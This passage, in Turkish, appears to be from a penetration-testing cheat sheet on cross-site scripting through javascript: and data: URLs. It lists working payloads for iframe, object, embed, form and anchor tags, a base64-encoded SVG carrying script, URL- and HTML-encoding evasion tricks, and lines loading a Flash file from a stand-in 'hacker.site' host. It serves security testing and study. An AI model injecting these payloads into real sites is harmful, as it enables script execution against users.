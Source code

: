 ```javascript
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**Bu protokolleri enjekte edebileceğiniz yerler**

**Genel olarak** `javascript:` protokolü, **`href` özniteliğini kabul eden herhangi bir etikette** ve **`src` özniteliğini kabul eden** çoğu etikette (ancak `<img>` değil) **kullanılabilir**.
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
**Diğer obfuscation hileleri**

_**Bu durumda, bir öznitelik içinde olduğunuz için önceki bölümdeki HTML kodlama ve Unicode kodlama hilesi de geçerlidir.**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```
Ayrıca, bu durumlar için başka bir **güzel numara** var: **`javascript:...` içindeki girdiniz URL kodlanmış olsa bile, çalıştırılmadan önce URL çözülür.** Yani, **tek tırnak** kullanarak **string**'den **kaçmak** gerekiyorsa ve **URL kodlandığını** görüyorsanız, **önemli değil,** çalıştırma sırasında **tek tırnak** olarak **yorumlanacaktır.**
```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
Not edin ki eğer **her ikisini de** `URLencode + HTMLencode` herhangi bir sırayla **payload**'ı kodlamak için kullanmaya çalışırsanız, bu **çalışmayacaktır**, ancak **payload** içinde **karıştırabilirsiniz**.

**`javascript:` ile Hex ve Octal kodlama kullanma**
